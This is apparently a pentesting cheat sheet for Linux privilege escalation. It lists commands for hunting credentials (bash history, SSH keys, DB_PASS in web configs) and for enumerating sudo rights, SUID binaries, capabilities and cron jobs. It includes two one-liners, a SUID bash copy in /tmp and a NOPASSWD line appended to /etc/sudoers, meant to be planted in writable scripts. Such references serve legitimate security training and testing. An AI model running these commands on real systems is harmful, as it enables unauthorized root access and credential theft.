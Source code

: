 # 3_privilege_escalation

- Check for sensitive files in home directories.

```
find /home/ -name .bash_history 2> /dev/null
find /home/ -name .ssh 2> /dev/null
```

- Check for sensitive files in web server directory.

```
find /var/www/ -name "*config*.php"
find /var/www/ -name "initialize.php"
find /var/www/ -name "*.db"
which mysql
```

- Check for credentials in web server directory.

```shell
grep -r "DB_PASS" /var/www/
```

- Check for sensitive files in other directories.

```
/home
~
/
```

- Check sudo commands.
You don't always need the user creds to run this escalation!

```shell
sudo -l
```

- Check group memberships.

```shell
id
```

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check for interesting cronjobs. 

```
cat /etc/crontab
```

Some nice one liners to overwrite in scripts are

```shell
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
```shell
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

- Check files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

- Check socket statistics for processes exposed on the machine.

```
ss -s -l -n -t -u
```

- Check the environment variables of the shell. 
- Check if there are scripts or commands to are vulnerable to `PATH` manipulation.
- Check for kernel exploits.
  - Determine kernel version using `uname -a`.
  - Search exploit databases for match.
  - Run exploit.
